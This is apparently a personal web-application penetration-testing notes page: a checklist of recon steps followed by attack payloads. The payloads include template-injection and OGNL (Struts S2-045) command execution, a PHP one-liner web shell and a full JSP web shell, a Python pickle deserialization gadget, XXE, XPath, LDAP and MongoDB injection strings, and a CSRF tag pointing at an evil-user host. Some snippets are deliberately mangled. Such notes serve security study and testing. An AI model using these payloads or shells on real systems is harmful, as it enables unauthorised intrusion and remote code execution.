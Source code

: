 ```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


<style>
  .fieldset
  {
      border:2px solid black;
      -moz-border-radius:8px;
      -webkit-border-radius:8px;	
      border-radius:8px;	
      font-size:12px;
      padding:10px;
      width:250px;
  }
  </style>

<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt/sitemap.xml</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>phpmailer</li>
    <li>ruby - render -inline <%= `id %></li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }} or TPLMAP.py</li>
    <li>CSRF - <.img src="https://vulnerable-website/email/change?email=pwned@evil-user.net"> or tool=xsrfprobe</li>
    <li>xml entities - <!DOCTYPE test [
      <!ENTITY x SYSTEM "file:///etc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
      <li>objectinputstream- exploitation of a call to readObject - rO0 in cookie</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>
<code>?php system($_GET["cmd"]);?></code>
<code>?php print exec('command'); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>
<p>set alg to None - remove signature </p>



<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>
  
  <legend>webshell</legend>
  <pre><code>
    <.FORM METHOD=GET ACTION='index.jsp'>
    <.INPUT name='cmd' type=text>
    <.INPUT type=submit value='Run'>
    <./FORM>
    <%@ page import="java.io.*" %>
    <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"<./br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <.pre><%=output %><./pre></code></pre>

      <p>remove dots after "<" save as .jsp</p>

</fieldset>

<h2>serialization</h2>
<h4>Python</h4>
<p>Pickle</p>

<fieldset>
  
  <legend>Python Serialization</legend>
  <pre><code>
    asdmport cPickle
    asdmport os
    
    asdclass Blah(object):
      def __reduce__(self):
        return (os.system,('command'.))'
    
    
    b = Blah()
    print cPickle.dumps(b)
    
  </code></pre>
</fieldset>

<li>run script</li>
<li>base64 encode result</li>
<li>replace server thingy</li>


<h2>xml</h2>
<p>https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md</p>



<h2>ECB Vuln</h2>

<fieldset>
  
  <legend>ECB ruby to decode</legend>
  <pre><code>
% irb
> require 'base64' ; require 'uri'
 => true
> Base64.decode64(URI.decode("OR9hcp18%2BC1bChK10NlRRg%3d%3d"))
 => "9\x1Far\x9D|\xF8-[\n\x12\xB5\xD0\xD9QF"
  </pre></code>

</fieldset>

<h2>lfi/rfi</h2>
<p>https://raghavtalwar4.gitbook.io/privilege-escalation-cheatsheet/owasp-top-10-and-more/lfi-rfi-cheatsheet</p>
g0tmilk
asd__import__('os').system('/bin/sh')asd  


<h2>.git - dump</h2>

<h2>command injection</h2>
<p>what to look for</p>
<li>app</li>



<h2>apache struts s2-045</h2>
<p>detection</p>
<code>"%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}"</code>
